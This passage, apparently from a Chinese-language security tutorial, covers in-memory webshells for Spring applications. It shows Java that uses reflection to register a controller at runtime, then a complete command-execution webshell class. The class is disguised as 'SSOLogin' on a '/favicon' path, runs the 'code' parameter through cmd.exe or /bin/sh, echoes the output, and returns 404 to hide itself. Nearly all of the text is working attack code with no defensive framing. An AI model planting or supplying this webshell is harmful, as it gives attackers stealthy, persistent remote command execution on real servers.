 ```java
context.getBeanFactory().registerSingleton("dynamicController", Class.forName("me.landgrey.SSOLogin").newInstance());
org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping requestMappingHandlerMapping = context.getBean(org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping.class);
java.lang.reflect.Method m1 = org.springframework.web.servlet.handler.AbstractHandlerMethodMapping.class.getDeclaredMethod("detectHandlerMethods", Object.class);
m1.setAccessible(true);
m1.invoke(requestMappingHandlerMapping, "dynamicController");
```



### 3. controller 中的 Webshell 逻辑

在使用 `registerMapping` 动态注册 `controller` 时，不需要强制使用 `@RequestMapping`  注解定义 URL 地址和 HTTP 方法，其余两种手动注册 `controller` 的方法都必须要在 `controller` 中使用`@RequestMapping`  注解 。

除此之外，将 Webshell 的代码逻辑写在主要的 `Controller` 方法中即可。

下面提供一个简单的用来执行命令回显的 Webshell 代码示例：

```java
package me.landgrey;

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.PrintWriter;

@Controller
public class SSOLogin {

    @RequestMapping(value = "/favicon")
    public void login(HttpServletRequest request, HttpServletResponse response){
        try {
            String arg0 = request.getParameter("code");
            PrintWriter writer = response.getWriter();
            if (arg0 != null) {
                String o = "";
                java.lang.ProcessBuilder p;
                if(System.getProperty("os.name").toLowerCase().contains("win")){
                    p = new java.lang.ProcessBuilder(new String[]{"cmd.exe", "/c", arg0});
                }else{
                    p = new java.lang.ProcessBuilder(new String[]{"/bin/sh", "-c", arg0});
                }
                java.util.Scanner c = new java.util.Scanner(p.start().getInputStream()).useDelimiter("\\A");
                o = c.hasNext() ? c.next(): o;
                c.close();
                writer.write(o);
                writer.flush();
                writer.close();
            }else{
                response.sendError(404);
            }
        }catch (Exception e){
        }
    }
}
```
